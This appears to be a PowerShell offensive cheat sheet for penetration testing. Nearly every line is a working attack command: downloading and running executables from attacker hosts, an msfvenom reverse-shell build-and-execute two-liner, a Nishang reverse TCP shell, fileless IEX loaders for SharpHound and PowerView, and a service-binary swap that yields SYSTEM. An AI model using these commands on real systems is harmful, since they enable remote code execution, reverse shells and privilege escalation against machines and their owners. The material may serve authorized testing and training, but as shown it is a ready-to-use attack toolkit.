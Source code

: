 # PowerShell

## Invoke-WebRequest
```
Invoke-WebRequest "http://10.2.3.85/ASCService.exe" -OutFile "ASCService.exe"
powershell -c Invoke-WebRequest "http://10.2.3.85/ASCService.exe" -OutFile "ASCService.exe"
powershell -c start-service AdvancedSystemCareService9

WOOTWOOT
c:\Windows\system32>whoami
nt authority\system
```

## New-Object System.Net.WebClient (alternate download method)
```
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.2.3.85/shell.exe','shell.exe')"
```

## MsfVenom Shell Download and Run (two-liner)
```
msfvenom --payload windows/x64/shell_reverse_tcp LHOST=10.13.48.232 LPORT=9001 --format exe > shell.exe
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.13.48.232/shell.exe','c:\temp\shell.exe')";powershell.exe c:\temp\shell.exe
```

## Nishang Shell (Running PS1 without saving to disk)
```
powershell iex (New-Object Net.WebClient).DownloadString('http://10.2.3.85/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.2.3.85 -Port 443
```

## Fileless (Running PS1 without saving to disk)
```
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.6:8000/SharpHound.ps1')
IEX(New-Object Net.WebClient).downloadString('http://192.168.10.1:8000/PowerView.ps1')
```

## Fileless (Run and Execute)
```
echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.19:8000/Sherlock.ps1') | powershell -noprofile - 
```

## Fileless ComObject
```
$h=New-Object -ComObject Msxml2.XMLHttp;$h.open('GET','http://192.168.10.1:8000/SharpHound.ps1',$false);$h.send();iex $h.responseText
```
